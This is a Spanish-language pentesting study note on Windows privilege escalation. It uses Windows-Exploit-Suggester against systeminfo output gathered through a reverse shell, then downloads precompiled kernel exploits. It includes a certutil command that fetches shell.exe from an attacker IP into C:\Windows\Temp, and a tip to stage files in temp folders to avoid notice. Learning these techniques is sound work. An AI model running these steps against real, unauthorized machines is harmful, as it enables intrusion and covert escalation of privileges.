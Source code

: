 Usando herramientas como windows exploit suggester:
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

1.- Nos clonamos la herramienta
2.- Obtenemos información del sistema víctima, para ello, en la reverse_shell que tengamos activa usamos el comando de cmd: `systeminfo`. Nos dará una gran cantidad de información del sistema, la copiamos y la guardamos en un fichero .txt.
![[Pasted image 20250206013207.png]]

3.- Vamos al repositorio clonado de la herramienta.
4.- Actualizamos Windows exploit suggester:
````
./windows-exploit-suggester.py --update
````
Nos creará una base de datos en formato fichero de excell.

5.- Ejecutamos windows-exploit-suggester indicándole el nombre del fichero de excell que nos creó y el fichero de texto donde tenemos la información del sistema.
````
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
````

Nos mostrará una serie de exploits recomendados, los que muestra antes son los más importantes.
Los cataloga con E si es de exploitdb, M si es un exploit módulo de metasploit y * que no sé que es.
Para identificar a un exploit se puede usar el CVE o tambíen el MS (microsoft exploit identifier).

### Usar el exploit recomendado
Para probar uno de los exploits recomendados por la herramienta de windows-exploit-suggester, podemos utilizar este link https://github.com/SecWiki/windows-kernel-exploits. En este repositorio, buscamos por el CVE o el MS code y nos descargamos el archivo ya compilado .exe.

Pasos:
1.- Nos descargamos el exploit.
2.- En la session que tenemos activa, nos vamos a la carpeta C:\\Temp. Es un sitio donde tenemos permisos de escritura seguro. No transferir nunca ficheros de nuestra máquina al home o escritorio de la máquina víctima, ya que pueden darse cuenta antes, mejor usar los directorios temporales.
3-  Si estamos en una sesion de meterpreter, usar el comando `upload <ruta del kernel exploit.exe>`
Si no, usar el comando 
`certutil -urlcache -f http://192.168.1.5/shell.exe C:\Windows\Temp\shell.exe
certutil está nativo en windows.

`
4.- Ejecutamos el exploit .\exploit.exe

NOTA: Durante la transferencia de archivos, es posible que el antivirus detecte esta transferencia.
NOTA2: No es recomendable usar kernel exploits ya que pueden hacer que el sistema crashee.
